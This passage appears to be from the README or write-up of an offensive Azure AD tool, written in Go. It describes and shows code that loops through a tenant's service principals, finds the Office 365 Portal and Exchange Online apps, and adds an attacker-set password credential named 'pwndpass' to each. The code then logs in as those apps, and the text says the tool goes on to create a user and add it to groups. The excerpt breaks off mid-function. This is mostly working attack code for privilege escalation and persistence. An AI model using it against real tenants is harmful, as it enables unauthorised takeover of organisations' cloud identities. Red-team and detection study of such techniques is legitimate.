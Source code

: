 ## Create user/add to group
Basically the code loops through the list of SPN's returned and looks for those two display names.
Then adds a predefined password credential to both service principals. Logs in as each and creates as user then loops through the azure AD groups available and asks if the user should be added.
```go
SPNs := GetSPs(authToken,TenantId)
    for x := range SPNs.Value{
        if SPNs.Value[x].AppDisplayName == "Microsoft Office 365 Portal"{
            O365Found = true
            fmt.Println("[*] Found 0365 Portal App")
            fmt.Println("[*] Attempting to add Password Credential")
            O365AppObjId := SPNs.Value[x].ObjectID
            O365AppId := SPNs.Value[x].AppID
            fmt.Println("[*] Found Obj ID")
            fmt.Println(O365AppObjId)
            fmt.Println("[*] Found App ID")
            fmt.Println(O365AppId)
            var NewCredsToAdd PasswordCredentials
            NewCredsToAdd.StartDate = now_t
            NewCredsToAdd.EndDate = then_t
            NewCredsToAdd.Value = pwndpass
            SPNs.Value[x].PasswordCredentialss = append(SPNs.Value[x].PasswordCredentialss,NewCredsToAdd)
            Ready2PostPassWords := make(map[string]interface{})
            Ready2PostPassWords["passwordCredentials"] = SPNs.Value[x].PasswordCredentialss
            AddPassResult := AddPasswordToSP(authToken,Ready2PostPassWords,O365AppObjId,TenantId)
            if AddPassResult == "error" {
                fmt.Println("[*] Error Adding PasswordCredential To O365 Portal App")
                fmt.Println("[*] Exiting....")
                os.Exit(2)
            }else{
                fmt.Println("[*] Successfully Added PasswordCredentials To O365 Portal App")
                fmt.Printf("[*] PasswordCredentials :=> %s : %s\n",O365AppId,NewCredsToAdd.Value)
            }
            fmt.Printf("[*] Attempting To Login As The O365 Application...\n")
            O365AuthTokenStruct = authAsSPN("https://graph.windows.net",SPNs.Value[x].AppID,NewCredsToAdd.Value.(string),TenantId)

        }
         if SPNs.Value[x].AppDisplayName == "Office 365 Exchange Online"{
            //fmt.Println(SPNs.Value[x].AppDisplayName)
            ExchangeFound = true
            fmt.Println("[*] Found Exchange Online App")
            fmt.Println("[*] Attempting to add Password Credential")
            ExchangeAppObjId := SPNs.Value[x].ObjectID
            ExchangeAppId := SPNs.Value[x].AppID
            fmt.Println("[*] Found Obj ID")
            fmt.Println(ExchangeAppObjId)
            fmt.Println("[*] Found App ID")
            fmt.Println(ExchangeAppId)
            var NewCredsToAddExchange PasswordCredentials
            NewCredsToAddExchange.StartDate = now_t
            NewCredsToAddExchange.EndDate = then_t
            NewCredsToAddExchange.Value = pwndpass
            SPNs.Value[x].PasswordCredentialss = append(SPNs.Value[x].PasswordCredentialss,NewCredsToAddExchange)
            Ready2PostPassWordsExchange := make(map[string]interface{})
            Ready2PostPassWordsExchange["passwordCredentials"] = SPNs.Value[x].PasswordCredentialss
            AddPassResultExchange := AddPasswordToSP(authToken,Ready2PostPassWordsExchange,ExchangeAppObjId,TenantId)
            if AddPassResultExchange == "error" {
                fmt.Println("[*] Error Adding PasswordCredential To Office 365 Exchange Online App")
```